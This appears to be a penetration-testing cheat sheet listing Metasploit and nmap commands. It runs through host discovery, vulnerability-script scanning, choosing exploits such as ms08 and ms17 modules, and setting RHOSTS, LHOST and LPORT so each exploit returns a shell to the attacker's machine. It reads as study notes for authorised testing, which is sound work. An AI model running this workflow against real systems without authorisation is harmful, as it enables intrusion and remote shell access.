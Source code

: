   ```
  db_nmap -sn -v -n -T4 <IP.address.range>
  ```

* ```bash
  db_nmap -n -Pn -v -sV -Pn --version-all <IP.address.range>
  ```

* ```bash
  hosts
  ```

* ```bash
  services -u <IP.address>
  ```

  * Outputs potential vulnerable services for that specific IP address

#### From Kali

* ```bash
  sudo nmap -n -v -Pn -T4 --script="XX" <IP.address> -p#
  ```

  * Identify possible vulnerabilities and choose specific target you want to attack

* ```bash
  sudo nmap -n -v -Pn -T4 --script="XX" <IP.address> -p# > <file.name>
  ```

* ```bash
  grep -B 5 -i vuln* <file.name>
  ```

#### From Metasploit (Exploit Selection)

* ```bash
  search vuln.value (e.g., ms08_, ms17, etc.)
  ```

* ```bash
  use vuln.#
  ```

#### Configuring the Exploit

* ```bash
  show options
  ```

  * Displays the required items that need to be filled (be sure to look at the REQUIRED column!)

* ```bash
  set RHOSTS <target.IP>
  ```

* ```
  set LHOST <eth#> OR <Kali.address>
  ```

  * NOTE: be sure to use different port numbers for each shell!

* ```bash
  set LPORT <port#>
  ```
